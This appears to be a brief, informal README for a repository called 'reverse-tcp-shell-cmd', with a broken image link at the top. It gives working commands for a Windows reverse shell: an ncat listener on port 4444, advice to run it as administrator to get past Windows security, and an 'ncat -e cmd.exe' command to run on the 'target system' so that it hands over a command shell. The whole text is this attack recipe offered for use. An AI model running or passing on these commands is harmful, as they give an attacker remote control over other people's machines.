 # reverse-tcp-shell-cmd-
CMD 
ncat -nvlp 4444
run cmd file as administator or its not work cause of windows security 
then try ncat -e cmd.exe 127.0.0.1 4444 in target system 
nd enjoy for now and it will be update soon as posible 
